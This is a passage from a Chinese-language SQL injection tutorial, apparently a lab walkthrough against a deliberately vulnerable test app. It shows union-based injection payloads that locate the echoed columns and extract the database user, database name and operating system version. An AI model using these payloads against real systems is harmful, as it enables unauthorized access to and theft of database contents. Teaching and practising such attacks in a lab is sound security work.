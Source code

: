![image-20220218140529221](../../images/image-20220218140529221.png)

接下来利用联合查询，查看一下我们要查询的数据会被回显到哪里。

这里尝试注入 `1' and 1=2 union select 1,2 #`

![image-20220218140841776](../../images/image-20220218140841776.png)

从而得出First name处显示结果为查询结果第一列的值，surname处显示结果为查询结果第二列的值，利用内置函数`user()`,及`database()`，`version()`注入得出连接数据库用户以及数据库名称：

我们注入：

`1' and 1=2 union select user(),database() # `

![image-20220218141917199](../../images/image-20220218141917199.png)

获得操作系统信息：

`1' and 1=2 union select 1,@@global.version_compile_os from mysql.user #`

![image-20220218141958893](../../images/image-20220218141958893.png)
